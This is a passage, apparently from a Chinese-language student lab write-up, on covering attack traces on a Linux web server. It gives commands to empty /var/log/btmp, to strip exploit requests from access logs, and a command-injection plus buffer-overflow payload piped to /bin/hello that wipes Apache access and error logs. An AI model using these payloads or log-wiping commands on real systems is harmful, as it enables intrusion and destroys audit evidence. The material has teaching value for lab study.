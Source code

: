    可以使用如下几种方式删除/清空：

   ```bash
   rm /var/log/btmp
   echo > /var/log/btmp
   cat /dev/null > /var/log/btmp
   ```

   还有一种方式可以选择清除部分相关日志

   ```bash
   cat /var/log/apache2/access.log | grep -v exp.php > tmp.log
   cat tmp.log > /var/log/nginx/access.log
   ```

   下为笔者组织的一次擦除`access.log`痕迹的攻击：

   ```
   q|(printf "AAAAAAAABBBBBBBBCCCCCCCC\xa9\x11\x40\0\0\0\0\0\n";sleep 1;echo 'echo > /var/log/apache2/access.log';)|/bin/hello;
   ```

   ![Lab3-23](E:\VSCODE\UbuntuShare\ICS\UCAS-ICS-Share\Lab3\Pic\Lab3-23.png)

   ![Lab3-24](E:\VSCODE\UbuntuShare\ICS\UCAS-ICS-Share\Lab3\Pic\Lab3-24.png)

   

```
/var/www/localhost/htdocs
q;ifconfig
q;fine / -name "hello"
ifconfig

q;(printf "AAAAAAAABBBBBBBBCCCCCCCC\xa9\x11\x40\0\0\0\0\0\n";sleep 1;ls /bin;)|/bin/hello;

cat /dev/null > /var/log/apache2/error.log


(printf "AAAAAAAABBBBBBBBCCCCCCCC\xa9\x11\x40\0\0\0\0\0\n";sleep 1;echo 'cat /dev/null > /var/log/apache2/error.log';)|/bin/hello
成功的删除了error.log的内容
```

